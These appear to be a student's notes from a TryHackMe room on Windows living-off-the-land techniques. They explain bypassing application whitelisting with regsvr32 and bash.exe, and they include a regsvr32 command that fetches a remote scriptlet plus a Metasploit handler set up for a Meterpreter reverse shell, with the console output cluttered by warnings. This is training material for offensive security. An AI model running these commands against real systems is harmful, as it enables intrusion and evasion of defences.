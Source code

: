 	Note if we wanted to create a 64-bit DLL version, we need to specify it in the msfvenom command and run it from the victim machine using the 64bits version of regsvr32.exe at C:\Windows\SysWOW64\regsvr32.exe.

Bourne Again Shell (Bash)

Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019. This feature is known as Windows Subsystem for Linux (WSL), and it exists in two WSL versions: WSL1 and WSL2. WSL is a Hyper-V virtualized Linux distribution that runs on the operating system, supporting a subset of the Linux kernel and system calls. This feature is an addon that a user can install and interact with a Linux distribution. As part of WSL, bash.exe is a Microsoft tool for interacting with the Linux environment. 

People found ways to execute payloads and bypass the Windows application whitelisting since it is a Microsoft signed binary. By executing bash.exe -c "path-to-payload", we can execute any unsigned payload. ATT&CK called this an Indirect Command execution technique where attackers abuse the Windows tools utility to obtain command executions. For more information about this technique, you may visit the T1202 ATT&CK website.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0468b54d6174a620d130adb1edacc1c.png)

Note that you need to enable and install the Windows Subsystem for Linux in Windows 10 to use the bash.exe binary. Also, the attached VM does not have the Linux Subsystem enabled due to nested virtualization restrictions. 

Keep in mind that this section highlighted a couple of interesting tools. If you are interested in checking out the LOLBAS tools available, you may visit the project website.

For more information about bypassing Windows security controls, we suggest checking the THM room: Bypassing UAC and Applocker once released!
*No answer needed*

![[Pasted image 20220910225928.png]]


```

download 
PS C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll


┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
```